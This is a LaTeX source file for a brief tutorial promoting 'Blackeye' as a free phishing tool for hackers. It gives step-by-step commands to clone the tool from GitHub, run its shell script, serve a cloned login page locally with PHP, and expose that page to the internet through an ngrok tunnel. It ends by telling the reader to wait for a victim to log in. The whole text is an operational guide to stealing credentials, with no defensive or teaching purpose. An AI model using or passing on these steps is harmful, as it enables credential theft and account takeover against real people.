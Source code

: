 \documentclass[12 pt, letterpaper]{extarticle}
\newcommand{\R}{\textcolor{red}} %
\newcommand{\T}{\texttt}
\begin{document}
\subsection*{Blackeye: The ultimate phishing tool for free} %
Blackeye is a great phishing tool for hackers that is an updated version of shellphish. Here is the complete instruction:
Before this: Create and connect your \textbf{ngrok} account through terminal to get localhost (one for free). Or if it already exists on your system then kill the previous process by this command: \R{\T{kill -9 {PID\footnote{Process ID}}}} (You need to find out that wheres the process is running, may be it on the sites folder). To get the PID run the command: \R{\T{top}} and find PID of \textbf{ngrok}. \R{\T{ctrl + c}} to get out from the process. Or follow this tutorial: {https://youtu.be/mSZbPrrdB-o} or make a web search "setting ngrok for phishing"
\begin{enumerate}
	\item Get blackeye:  \R{\T{ git clone https://github.com/An0nUD4Y/blackeye.git}}
	\item Change directory to blackeye: \R{\T{cd blackeye}}
	\item Run blackeye.sh:
	      \begin{enumerate}
		      \item \R{\T{bash blackeye.sh\footnote{better choice}}}
		      \item \R{\T{chmod +x blackeye.sh}} $\rightarrow$ \R{\T{./blackeye.sh}}
	      \end{enumerate}
	\item Choose an option
	\item While the process is running, do this job: open two terminal, one on blackeye, second on that sites folder that you wanna phish. Run this command on first terminal: \R{\T{./ngrok http 8080}}, before this, run this command on second terminal: \R{\T{php -S localhost:8080}} .
	\item Now at the first terminal, the phishing link is ready to go\dots
	\item Wait for victim to response.
	\item After loging into the phishing site. It will take the victim to original page.
\end{enumerate}

\vspace{5mm}
\end{document}
